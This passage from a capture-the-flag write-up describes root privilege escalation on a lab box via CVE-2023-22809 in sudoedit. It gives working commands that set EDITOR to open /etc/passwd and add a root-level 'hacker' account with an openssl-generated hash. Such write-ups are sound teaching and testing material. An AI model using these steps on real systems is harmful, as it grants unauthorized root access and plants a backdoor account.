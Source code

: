 ## **Privilege Escalation**

Checking our privileges we find that we can run a `sudoedit` as root.

```terminal
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

After some research we find the vulnerability [CVE-2023-22809](https://nvd.nist.gov/vuln/detail/cve-2023-22809) that affects `sudo` before `1.9.12p2`.

>In Sudo before 1.9.12p2, the sudoedit (aka -e) feature mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process. This can lead to privilege escalation. Affected versions are 1.8.0 through 1.9.12.p1. The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.
{: .prompt-info }

Check the this [article](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis) for more information.

With we can edit the `EDITOR` environment variable to edit the `/etc/passwd` file and add a privileged user.

```bash
export EDITOR="vi -- /etc/passwd"
```

We generate a password hash now with the following command:

```terminal
$ openssl passwd hacker
$1$V5geGPyI$SZ9rieQ0FvnwdJdSq7MKV1
```

And the line we are going to add to the `/etc/passwd` file looks like the following:

```terminal
hacker:$1$V5geGPyI$SZ9rieQ0FvnwdJdSq7MKV1:0:0:root:/root:/bin/bash
```

Now we run the sudo command which is going to open /etc/passwd with vim.

```bash
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

We paste our line and save the file. With that we created a user `hacker` with the password `hacker` that has root privileges.
